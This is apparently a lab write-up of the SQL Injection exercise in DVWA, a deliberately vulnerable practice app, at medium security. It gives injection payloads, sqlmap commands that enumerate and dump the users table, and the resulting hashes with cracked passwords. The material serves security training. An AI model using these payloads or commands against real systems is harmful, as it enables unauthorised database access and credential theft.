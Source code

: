 # [SQL Injection](http://localhost/vulnerabilities/sqli/)

So in medium security, this form now makes a POST request and the `id` input field 
is a dropdown with limited options.

The limited option dropdown field is no problem because we can make our own requests using 
Burp or curl.

We can prove SQL injection by submitting `id=2-1` which shows "admin" who is `id=1`

Can we return all the users? `id=1 or 1=1-- `

And yep we can. This security level doesn't seem to be any more upgraded other than it 
being a POST request. We know all the details of the DB from the previous security level.

But let's use `sqlmap` this time.

`sqlmap -u "http://192.168.1.78/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=ga31evahqau62n6qp1vitpm5u7; security=medium" --dbs`

We get two dbs: *dvwa*, *information_schema*. Let's see the tables in *dvwa*

`sqlmap -u "http://192.168.1.78/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=ga31evahqau62n6qp1vitpm5u7; security=medium" -D dvwa --tables`

Two tables: *guestbook*, *users*. And the columns of the *users* table.

`sqlmap -u "http://192.168.1.78/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=ga31evahqau62n6qp1vitpm5u7; security=medium" -T users --columns`

Eight columns with our targets: *user* and *password*. Let's dump the contents and crack them.

`sqlmap -u "http://192.168.1.78/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=ga31evahqau62n6qp1vitpm5u7; security=medium" -T users -C user,password --dump`

> +---------+---------------------------------------------+
> | user    | password                                    |
> +---------+---------------------------------------------+
> | 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
> | admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
> | gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
> | pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
> | smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
> +---------+---------------------------------------------+
